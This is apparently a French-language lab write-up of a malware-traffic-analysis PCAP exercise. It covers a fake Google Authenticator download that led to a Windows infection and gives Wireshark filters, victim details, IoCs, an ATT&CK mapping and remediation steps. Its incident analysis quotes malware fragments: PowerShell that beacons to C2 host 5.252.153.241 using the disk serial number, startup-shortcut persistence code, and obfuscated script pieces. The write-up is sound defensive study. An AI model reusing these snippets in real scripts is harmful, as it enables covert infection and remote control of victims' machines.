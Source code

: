 ## 🕵️‍♂️ MTA-2025-01-22

🔍[Source](https://www.malware-traffic-analysis.net/2025/01/22/index.html) 


---

### 📌 Contexte

- Un utilisateur télécharge un faux logiciel (Google Authenticator) depuis un site frauduleux, entraînant l’infection de son poste Windows et la communication avec plusieurs serveurs C2. 
- Ce document contient une **analyse 'step-by-step' avec captures d’écran** pour chaque question.
  
<img src="images/open.png" alt="open" width="800"/>

---

### 🧰 Outils utilisés

- [Wireshark](https://www.wireshark.org/download.html)
- [Kali Linux](https://www.kali.org/)
- [VMware](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [CyberChef](https://gchq.github.io/CyberChef/)

---

### 📝 Questions & Analyse

#### Q1. What is the IP address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Ouvrir le PCAP (via terminal ou fichier directement)

  - Étape 2 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`10.1.17.215`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q1.png" alt="q1" width="800"/>
</details>


---

#### Q2. What is the mac address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`00:d0:b7:26:4a:74`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q2.png" alt="q2" width="800"/>
</details>


---

#### Q3. What is the host name of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Dans certains PCAPs, tu peux retrouver le nom d’hôte Windows de la victime grâce au trafic **NBNS ou SMB/SMB2**.  

        nbns or smb or smb2 

</details>


<details>
  <summary>✅ Réponse</summary>
  
`DESKTOP-L8C5GSJ`  
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q3.png" alt="q3" width="800"/>
</details>


---

#### Q4. What is the user account name from the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer les paquets Kerberos provenant de la machine infectée.
  
          ip.src == 10.1.17.215 and kerberos.CNameString
    
  - Étape 2 : Inspecter le champ `CNameString` dans le panneau *Packet Details* pour relever le nom d’utilisateur.
</details>


<details>
  <summary>✅ Réponse</summary>
  
`shutchenson`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q4.png" alt="q4" width="800"/>
</details>


---

#### Q5. What is the likely domain name for the fake Google Authenticator page?
<details>
    <summary>💡 Étapes</summary>
    
- Étape 1 : Appliquer un filtre pour isoler les requêtes DNS émises par l’hôte `10.1.17.215`.
  
      ip.src == 10.1.17.215 && (dns && dns.flags.response == 0) && dns.qry.name matches "(auth|google|authenticator)"
  
      ⚠️ dns.flags.response == 0 pour ne filtrer que les DNS queries initiées par le client.
- Étape 2 : Repérer le ou les domaines suspects qui imitent Google Authenticator.

      ⚠️ Un domaine avec une faute de frappe évidente (ex. double "o") est généralement un signe de domaine malicieux.

- Étape 3 : Vérifier les réponses DNS pour obtenir les adresses IPv4 résolues par ces domaines.
    
        (dns.qry.name == google-authenticator.burleson-appliance.net || dns.qry.name == authenticatoor.org) && dns.flags.response == 1 && dns.qry.type == 1

      ⚠️ dns.flags.response == 1 capture uniquement les réponses (!= client).
      ⚠️ dns.qry.type == 1 limite aux enregistrements A (== IPv4).
  
- Étape 4 : Vérifier la réputation des domaines/IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).



</details>  

<details>
  <summary>✅ Réponse</summary>
  
`google-authenticator.burleson-appliance.net`

`authenticatoor.org`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q5a.png" alt="q5a" width="800"/>
<img src="images/q5b.png" alt="q5b" width="800"/>
<img src="images/q5c.png" alt="q5c" width="800"/>
<img src="images/q5d.png" alt="q5d" width="800"/>
<img src="images/q5e.png" alt="q5e" width="800"/>
<img src="images/q5f.png" alt="q5f" width="800"/>
<img src="images/q5g.png" alt="q5g" width="800"/>
<img src="images/q5h.png" alt="q5h" width="800"/>
<img src="images/q5i.png" alt="q5i" width="800"/>
<img src="images/q5j.png" alt="q5j" width="800"/>
<img src="images/q5k.png" alt="q5k" width="800"/>
</details>


<details>
  <summary>🔗 Liens VirusTotal</summary>
    
[google-authenticator.burleson-appliance[.]net](https://www.virustotal.com/gui/domain/google-authenticator.burleson-appliance.net)

[authenticatoor[.]org](https://www.virustotal.com/gui/domain/authenticatoor.org)

[104.21.64[.]1](https://www.virustotal.com/gui/ip-address/104.21.64.1)

[82.221.136[.]26](https://www.virustotal.com/gui/ip-address/82.221.136.26)

</details>


---


#### Q6. What are the IP addresses used for C2 servers for this infection?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Appliquer un filtre pour identifier toutes les adresses IP sortants de l’hôte infecté.

        ip.src == 10.1.17.215 && (http.request or tls.handshake == 1 or (tcp.flags.syn == 1 && tcp.flags.ack == 0)) && !(ssdp) && ip.dst != 10.1.17.0/24
        
  - Étape 2 : Filtrer les adresses IP internes/légitimes
    
          ⚠️ Trafic vers réseau interne (10.1.17.0/24)
          ⚠️ Services connus comme Microsoft, Google, Edge, etc.

  - Étape 3 : Vérifier la réputation des adresses IP suspectes via [VirusTotal](https://www.virustotal.com/gui/home/upload).
</details>


<details>
  <summary>✅ Réponse</summary>
  
`5.252.153[.]241`

`45.125.66[.]32`

`45.125.66[.]252`

</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q6a.png" alt="q6a" width="800"/>
<img src="images/q6b.png" alt="q6b" width="800"/>
<img src="images/q6c.png" alt="q6c" width="800"/>
</details>

<details>
  <summary>🔗 Liens VirusTotal</summary>

[5.252.153[.]241](https://www.virustotal.com/gui/ip-address/5.252.153.241)

[45.125.66[.]32](https://www.virustotal.com/gui/ip-address/45.125.66.32)

[45.125.66[.]252](https://www.virustotal.com/gui/ip-address/45.125.66.252)

</details>


---

### 🕵️‍♂️ Rapport d'incident
<details>

    
#### 📌 Résumé

Le 2025-01-22 à 15:03 UTC, un poste Windows utilisé par l’utilisateur `shutchenson` a été compromis suite au téléchargement d’un logiciel frauduleux depuis un site imitant Google Authenticator (`authenticatoor[.]org`).

Le malware a installé plusieurs fichiers malveillants, mis en place un mécanisme de persistance au démarrage, et établi une communication avec plusieurs serveurs de command-and-control (C2) pour assurer un contrôle continu de la machine compromise.

---

#### 🖥️ Détails de la victime

- Nom d'utilisateur : `shutchenson`
- Nom d'hôte : `DESKTOP-L8C5GSJ`
- IP locale : `10.1.17[.]215`
- Adresse MAC : `00:d0:b7:26:4a:74`

---
#### 🚨 Indicateurs de compromission (IoCs)

Domaines/URLs suspects :
- `google-authenticator.burleson-appliance[.]net`
- `authenticatoor[.]org` 

Serveurs C2 :
- `5.252.153[.]241`
- `45.125.66[.]32`
- `45.125.66[.]252`

Ports :
- `TCP/80 (HTTP)`
- `TCP/443 (HTTPS)`

Fichiers suspects :
- `TeamViewer[.]exe` 
- `TV[.]dll` 
- `pas[.]ps1`
- `skqllz[.]ps1`

Persistance :
- Raccourci dans le dossier Startup `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\TeamViewer.ln`

---

#### 🔍 Analyse Détaillée
<details>
    
1️⃣ Extraction et exécution de scripts

- Le client effectue une requête `GET /api/file/get-file/264872` et récupère un composant HTML contenant un **VBScript**.
- Le VBScript télécharge et exécute un script PowerShell depuis `http://5.252.153[.]241:80/api/file/get-file/29842.ps1`.
- L’exécution est masquée grâce à `-WindowStyle Hidden` et `start /min`.
- Ouverture d’un site légitime (https://azure.microsoft.com) pour distraire l’utilisateur.
- Gestion des erreurs avec `On Error Resume Next` afin d’assurer la continuité du script.

2️⃣ PowerShell initial (`29842.ps1`)

- Contient une chaîne Base64 dissimulée via `.replace()`.
- Décodage et exécution dynamique avec `Invoke-Expression`.
- Identification de l’hôte **via le numéro de série du disque C:**

```$fso = New-Object -Com "Scripting.FileSystemObject"
$SerialNumber = $fso.GetDrive("c:\").SerialNumber
$SerialNumber = [convert]::toint64($SerialNumber,16)
$serial = $SerialNumber
$ip = 'http://5.252.153.241/'
$url = $ip+$serial
```

- Boucle infinie de téléchargement/exécution de commandes depuis C2, avec ajout de pauses de 5 secondes pour limiter la détection.

3️⃣ Téléchargement de fichiers et persistance

- Création du dossier `C:\ProgramData\huo` et téléchargement de plusieurs fichiers :
- `TeamViewer.exe` → exécutable principal
- `Teamviewer_Resource_fr.dll` 
- `TV.dll` 
- `pas.ps1`
- Création d’un raccourci dans le dossier Startup pour assurer la persistance (`.lnk`):

```
$shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"
Create-Shortcut $startupFilePath $shortcutPath
```

4️⃣ PowerShell furtif (`skqllz.ps1`)

- Décodage Base64 pour générer le script principal ([CyberChef](https://gchq.github.io/CyberChef/) pour décodage)
  - Script dissimulé avec des variables aléatoires, concaténations et remplacement de caractères.
```
$NOtpWmSIdODGSpZw = 'dXNpb'
$AwoVYrdnaRqwQwIR = ('PjbXUKllmrzPjbXUKmcgU' -split 'PjbXUK')[2]
$bipxzxdxTeWltRuZETo = $NOtpWmSIdODGSpZw + $AwoVYrdnaRqwQwIR
$AkEiJsIqpXZniGUAcwgi = '3lzdG'
$GQXMEUFkfQKNrHz = $AkEiJsIqpXZniGUAcwgi
$lNcnDkYznZYNGS = 'V}t}O}w}p}'.replace('}', '')
$roSPFHOnzUB = $lNcnDkYznZYNGS
$xtZaRGRfwoDKOIahvtc = '1&c&2&'.replace('&', '')
$IDdoQNfyQZT = 'luZ'
$XiGbBTVOcETNtwj = ('qrTLBVPRRAHmqrTLBVPyBTeXqrTLBVPvJTdeqrTLBVPPDQbxSu' -split 'qrTLBVP')[2]
$bPJnndNVDE = $xtZaRGRfwoDKOIahvtc + $IDdoQNfyQZT + $XiGbBTVOcETNtwj
$iMomIPCvExLjuGt = 'N$0$Z$W$'.replace('$', '')
$aMCdlKxvWQWiMMrpeNo = '0uR'

```

- Exécution en arrière-plan via `Start-Process`.
- Envoi régulier de logs au serveur C2 avec la fonction `Send-Log`.




5️⃣ Investigation des fichiers dans [VirusTotal](https://www.virustotal.com/gui/home/url)

<img src="images/export.png" alt="export" width="800"/>

- Le fichier `[TeamViewer[.]exe]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e`
- Type : Win32 EXE file
- Community score : flagged 0 sur 72 = probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e/details)

---

- Le fichier `[TeamViewer_Resource[.]dll]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192`
- Type : Win32 DLL file
- Community score : flagged 0 sur 72 = probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192/details)

---

- Le fichier `[TV[.]txt]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7`
- Type : Win32 DLL file
- Community score : flagged par 44 sur 72 = probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7/details)

---

- Le fichier `pas[.]ps1` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e`
- Type : TXT file
- Community score : flagged par 24 sur 60 = probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e/details)




</details>

---

#### 🕵️ MITRE ATT&CK Mapping
<details>
    
| Tactique                     | Technique (ID)                              | Description |
|-------------------------------|--------------------------------------------|------------------|
| Initial Access                | [Drive-by Compromise (T1189)](https://attack.mitre.org/techniques/T1189/)                | Téléchargement du logiciel frauduleux depuis un site imitant Google Authenticator |
| Execution                     | [PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/)                     | Exécution de scripts PowerShell dissimulés |
| Persistence                   | [Startup Items (T1547.001)](https://attack.mitre.org/techniques/T1547/001/)                  | Raccourci dans le dossier Startup pour exécution automatique |
| Defense Evasion               | [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)   | Scripts PowerShell et VBScript fortement dissimulés |
| Command and Control (C2)      | [Web Service (T1071.001)](https://attack.mitre.org/techniques/T1071/001/)                    | Communication avec serveur C2 via HTTP |
| Discovery                     | [System Information Discovery (T1082)](https://attack.mitre.org/techniques/T1082/)      | Récupération du numéro de série du disque pour identification unique |

</details>

---

#### 🛡️ Actions correctives recommandées

1. **Isolation** : déconnecter le poste pour stopper toute propagation.
2. **Blocage des IP malveillantes** : filtrer les adresses C2 sur le pare-feu et la passerelle.
3. **Analyse forensique** : procéder à l’examen complet du poste affecté et du réseau afin d’identifier tous les fichiers, scripts et artefacts malveillants.
4. **Audit des logs** : détecter toute activité suspecte supplémentaire.
5. **Renforcement des défenses** : mettre à jour antivirus, solutions EDR et restrictions PowerShell.
6. **Sensibilisation des utilisateurs** : rappeler les bonnes pratiques pour éviter les téléchargements depuis des sources non fiables.

---

#### 🔹 Conclusion

L’incident a été limité à un seul poste à ce stade, mais le potentiel de propagation et d’exfiltration de données reste élevé. La mise en œuvre rapide des actions correctives est cruciale pour sécuriser l’environnement et prévenir d’éventuelles attaques futures.
</details>

